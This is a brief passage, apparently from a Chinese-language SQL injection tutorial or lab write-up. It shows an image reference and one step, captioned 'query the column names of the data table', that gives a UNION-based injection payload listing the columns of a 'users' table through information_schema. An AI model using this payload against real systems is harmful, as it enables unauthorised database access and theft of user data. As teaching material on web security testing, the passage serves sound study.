 <img src="assets/图片11.png" alt="图片11" style="zoom:25%;" />

```
⑤查询数据表中，数据列的名字

1' and 1=2 union select 1,hex(column_name) from information_schema.columns where table_name='users' #
```
